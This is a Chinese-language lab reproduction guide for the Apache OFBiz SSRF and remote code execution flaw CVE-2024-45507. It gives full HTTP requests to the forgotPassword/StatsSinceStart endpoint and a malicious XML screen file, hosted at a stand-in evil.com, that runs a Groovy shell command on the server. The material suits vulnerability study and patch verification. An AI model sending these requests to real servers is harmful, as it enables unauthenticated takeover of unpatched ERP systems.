


Apache OFBiz SSRF 和远程代码执行漏洞（CVE-2024-45507）¶
Apache OFBiz是一个开源企业资源规划（ERP）系统。它提供了一套企业应用程序，集成并自动化企业的许多业务流程。
Apache OFBiz 18.12.16之前的版本存在一处SSRF与远程命令执行漏洞，未经身份验证的攻击者可以利用该漏洞执行任意命令并控制服务器。
参考链接：
- https://github.com/apache/ofbiz-framework/commit/ffb1bc4879
- https://xz.aliyun.com/t/15569
- https://paper.seebug.org/3228/
漏洞环境¶
执行以下命令启动一个Apache OFBiz 18.12.15服务器：
docker compose up -d
等待片刻后，您可以在https://localhost:8443/accounting看到登录页面。
漏洞复现¶
SSRF漏洞¶
向/webtools/control/forgotPassword/StatsSinceStart发送以下POST请求即可：
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: your-ip:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 64
statsDecoratorLocation=http://10.10.10.10/path/to/api
远程代码执行漏洞¶
在公共服务器上创建一个恶意的XML文件（payload.xml），例如http://evil.com/ofbiz/payload.xml：
<?xml version="1.0" encoding="UTF-8"?>
<screens xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns="http://ofbiz.apache.org/Widget-Screen" xsi:schemaLocation="http://ofbiz.apache.org/Widget-Screen http://ofbiz.apache.org/dtds/widget-screen.xsd">
<screen name="StatsDecorator">
<section>
<actions>
<set value="${groovy:'touch /tmp/success'.execute();}"/>
</actions>
</section>
</screen>
</screens>
然后将恶意XML的URL替换进请求中发送：
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: your-ip:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 64
statsDecoratorLocation=http://evil.com/ofbiz/payload.xml

进入容器中，可见命令touch /tmp/success已经被成功执行：
